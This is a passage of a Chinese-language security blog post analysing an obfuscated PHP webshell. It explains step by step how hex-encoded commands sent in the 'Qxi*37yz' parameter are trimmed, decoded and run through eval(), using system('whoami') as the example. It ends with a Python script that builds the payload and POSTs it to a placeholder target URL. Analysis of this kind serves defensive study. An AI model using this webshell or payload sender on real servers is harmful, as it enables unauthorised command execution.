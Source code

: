 但眼尖的师傅可能会发现，为什么最前面要加个 `a` 以及最后面要加个 `b` 呢？  
那是因为上面有 `substr()` 函数啊，会删掉前 `num` 个字符和后 `num` 个字符（截取中间部分的内容），小傻瓜~所以现在懂了吗？

所以整体参数的传参流程如下：

![参数传参流程.png](assets/1698896037-1babe313d992bf20238f0a7c0e2432a2.png)

-   刚开始传入参数：`num`\=`2`，`Qxi*37yz`\=`6173797374656d282777686f616d6927293b62`
-   第一步：先根据 `substr()`，从 num=2 开始截取到倒数第 2 位，于是 `Qxi*37yz` 便等于 `73797374656d282777686f616d6927293b`
-   第二步：再根据 `pack("H*",...)`，将 `Qxi*37yz`\=`73797374656d282777686f616d6927293b` 从 16 进制转为字符串即 `system('whoami');`
-   第三步：最后根据 `foreach()`，将内容返还给原本的值，使得 `encode()` 函数的输出变量 `$post1` 为 `system('whoami');`
-   第四步：再在 `Xt()` 函数当中，用 `eval()` 高危函数执行 php 语句 `system('whoami');`,便成功执行系统命令 `whoami`

当然这个 PHP 木马也能用蚁剑来连接，前提是需要写一个编码器，如果你懂原理了，相信你分分钟就能写出来~

这里的话，微信的 `@Elvery` 师傅还写了一个直接生成 Payload 一键传参的 Python 脚本，师傅们可以参考一下：

```python
import requests
import base64

# 指定 num 参数和要执行的 PHP 代码
num = 5
php_code = 'echo "Hello, world!";'

# 把 PHP 代码转换为十六进制字符串
hex_code = php_code.encode().hex()

# 在字符串的开头和结尾加上 num 个任意字符
encoded_code = 'a'*num + hex_code + 'a'*num

# 发送 POST 请求
response = requests.post('http://your-target-url/path-to-php-file.php', data={
    'num': num,
    'Qxi*37yz': encoded_code,
})

# 打印服务器的响应
print(response.text)
```
